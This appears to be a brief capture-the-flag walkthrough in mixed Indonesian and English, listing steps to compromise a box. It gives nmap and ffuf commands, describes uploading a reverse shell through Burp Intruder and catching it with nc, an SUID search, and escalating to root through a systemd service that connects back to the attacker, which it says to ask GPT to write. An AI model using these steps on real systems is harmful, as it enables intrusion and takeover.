 1. recon scanning : nmap -sV -p- ip --min-rate 1000 -vv -> jawab aja semuanya
2. fuzz: ffuf -w /dirbuster/dirlist-1.0.txt -u ip:port/FUZZ -fw 18
3. upload shell: upload reverseshell -> burpsuite intruder with wordlist -> uncentang encoding nya -> attack -> nc and gain shell
4. previlege escalation: find / -perm -u+s -type f -exec ls -l {} \; 2>/dev/null -> service issue di systemctl
-> tanya gpt, buat shell .service yang pake ip port attacker -> nyalain nc -> nyalain systemctl shell tadi -> klaim root
